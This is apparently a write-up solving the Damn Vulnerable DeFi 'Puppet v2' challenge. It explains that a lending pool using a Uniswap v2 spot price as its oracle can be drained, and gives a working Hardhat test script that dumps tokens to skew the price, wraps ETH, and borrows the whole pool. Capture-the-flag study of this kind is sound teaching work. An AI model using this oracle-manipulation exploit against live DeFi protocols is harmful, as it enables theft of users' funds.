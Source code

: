 # Challenge #9 - Puppet v2    
 The developers of the last lending pool are saying that they've learned the lesson. And just released a new version!

 Now they're using a Uniswap v2 exchange as a price oracle, along with the recommended utility libraries. That should be enough.

 You start with 20 ETH and 10000 DVT tokens in balance. The new lending pool has a million DVT tokens in balance. You know what to do ;)  

## Price Manipulation
For this new challenge, as well as the puppet v1 we have to drain the pool contract. In order to do that, 
we need to manipulate the price of WETH/DVT pair in uniswap v2. 

When we look at the contract, we can see that the getOracleQuote() although is using the uniswap v2 official libraries, it 
does the same operation as the puppet v1 and it's still subject to price manipulation. 
Therefore, we can still manipulate the price selling a bunch of DVT tokens and decreasing the amount of eth 
in liquidity. 

The main difference here, is that instead of sending ether, to the borrow function in the lending pool contract we have to send weth in order
to borrow DVT tokens. So, we'll have to exchange or DVT tokens for ETH in uniswap and then convert all our ETH to WETH and 
hope that we have a higher amount of WETH that the calculateDepositRequired() requires.

## Exploit 
```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		// Approve DVT
        await this.token.connect(attacker).approve(
            this.uniswapRouter.address,
            ethers.utils.parseEther('10000'),
        );
		//Swap tokens for ETH
		await this.uniswapRouter.connect(attacker).swapExactTokensForETH(
			ATTACKER_INITIAL_TOKEN_BALANCE,
			0,
			[this.token.address, this.weth.address],
			attacker.address,
			(await ethers.provider.getBlock('latest')).timestamp * 2,
		);
		// Convert ETH to WETH
		const weth_required = await this.lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE)
		await this.weth.connect(attacker).deposit({value: weth_required});
		// Approve WETH
        await this.weth.connect(attacker).approve(
            this.lendingPool.address,
            weth_required,
        );
		// Drain Pool
		await this.lendingPool.connect(attacker).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```

